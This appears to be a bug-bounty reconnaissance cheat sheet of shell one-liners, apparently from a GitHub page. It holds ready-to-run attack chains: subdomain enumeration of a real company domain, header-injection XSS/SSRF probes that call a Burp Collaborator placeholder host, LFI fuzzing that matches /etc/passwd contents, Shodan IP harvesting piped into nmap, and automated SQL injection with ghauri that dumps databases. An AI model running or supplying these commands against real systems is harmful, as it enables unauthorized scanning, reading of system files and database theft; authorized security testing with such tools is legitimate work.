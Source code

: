 ```
cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotor'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotor'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotor'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e '\e[1;32m$url\e[0m''\n''Method[1] X-Forwarded-For: xss+ssrf => $xss1''\n''Method[2] X-Forwarded-Host: xss+ssrf ==> $xss2''\n''Method[3] Host: xss+ssrf ==> $xss3''\n''Method[4] GET http://xss.yourburpcollabrotor HTTP/1.1 ''\n';done
```
XSS and SSRF testing with headers
```
echo 'https://example.com/index.php?page=' | httpx-toolkit -paths payloads/lfi.txt -threads 50 -random-agent -mc 200 -mr 'root:(x|\*|\$[^\:]*):0:0:'
```
#SQRY Recon - Shodan ip scanner
```
go install github.com/Karthik-HR0/sqry@latest
```
```
sqry -q "apache" > apache_ips.txt # Search for apache servers

sqry -q 'org:\"Google LLC\"' # Search with organization filter

sqry -q "port:443" | sort -u # Search with port filter

sqry -q "apache" | xargs -I {} nmap -sV {} # Scan found IPs with nmap

sqry -q "apache" | tee ips.txt | wc -l # Save to file and count results

sqry -q "apache" | grep -v "^10\." > public_ips.txt # Filter and process results
```

```
subfinder -d ferrari.com -all -recursive > ferrari.txt
```

```
subfinder -d vulnweb.com -all -silent | gau -t 50 | uro | gf sqli > sql.txt; ghauri -m sql.txt --batch --dbs --level 3 --confirm 
```

```
echo "test.vulnweb.com" | gau -t 50 | uro | gf sqli > sql.txt; ghauri -m sql.txt --batch --dbs --level 3 --confirm
```

```
grep -Eo 'https?://[^ ]+' 200.txt > urls_only.txt
```

```
awk '{print $1}' 200.txt > urls_only.txt
```

```
cat ferrari.txt | httpx-toolkit -threads 200 | grep -I "200" > liveferrari.txt
```
